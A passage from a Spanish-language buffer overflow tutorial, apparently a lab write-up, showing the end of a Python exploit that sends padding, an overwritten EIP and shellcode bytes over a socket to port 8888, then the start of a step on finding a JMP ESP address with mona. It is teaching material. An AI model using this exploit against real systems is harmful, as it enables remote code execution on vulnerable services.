 ```python
        b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
        b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
        b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
        b"\xb0\xbc\x3b\xba\xb1\x94")
    offset = 1052
    before_eip = b"A" * offset
    eip = b"B" * 4

    payload = before_eip + eip + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

#### Etapa 6: Asignar el opcode al EIP {-}

```{r, echo = FALSE, fig.cap="Buf opcode", out.width="90%"}
    knitr::include_graphics("images/Buff-jmpesp.png")
```

Como dicho precedamente, no podemos meter la direccion del **ESP** directamente en el **EIP** para ejecutar el Shell code.
Aqui lo que tenemos que hacer es encontrar una direccion donde se ejecute el commando **JMPESP** para redirigirnos al Shell code.

1. Busqueda de modulos con mona

    ```bash
    !mona modules
    ```

1. Buscamos una dll que tenga todas las protecciones a False
    ```